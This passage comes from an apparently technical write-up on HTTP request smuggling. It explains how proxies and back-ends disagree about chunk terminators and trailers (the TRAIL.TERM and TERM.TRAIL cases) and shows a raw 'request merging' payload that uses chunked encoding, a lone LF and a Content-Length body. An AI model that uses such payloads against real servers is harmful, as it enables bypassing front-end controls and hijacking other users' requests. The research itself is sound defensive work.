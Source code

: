 <p style="text-align: center; font-weight: bold;">TERM interpretation (server)</p>
</div>

</div>

The proxy ignores the lone newline following the last chunk, interpreting it as part of the trailer section. It perceives the remaining data – which the back-end interprets as a second request – as a chunked trailer section. Conveniently, the last two consecutive CRLF sequences serve both as the termination of the trailer section and the second pipelined request.

*__Note__: The first chunk is not strictly needed, but experience has taught me that some proxies rewrite requests with an empty body. The first chunk serves to prevent this rewriting behavior.*


#### TERM.TRAIL
As it turns out, the TERM.TRAIL scenario is quite a bit more complicated. Before we deep-dive into why, let's first think about how we may construct an equivalent to the TRAIL.TERM payload above. In doing so, we quickly realize that we cannot *'split'* a request as we usually would, because the *'split'* can only occur on the front-end; once we add the ambiguous line terminators, the front-end interprets them as the end of the request, and we have no way of splitting the request on the back-end instead.

There is a workaround, though: we can use *two* requests. This would perhaps more accurately be described as *'request merging'* rather than *'request splitting'*, because what the front-end perceives as two separate requests is squashed into a single request on the back-end – not the other way around.

<div style="display: flex; gap: 10px;">
<div style="flex: 1;">

<pre><code>GET /one HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">2<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk header</span>
</span>xx<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk body</span>
</span><span class="http-highlight http-highlight-two"><span class="http-highlight http-highlight-two-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\n</span>
</span>GET /two HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #2</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Content-Length: 40<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one">GET /three HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text">request body</span>
Host: localhost<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span></span></code></pre>

<p style="text-align: center; font-weight: bold;">TERM interpretation (proxy)</p>
</div>
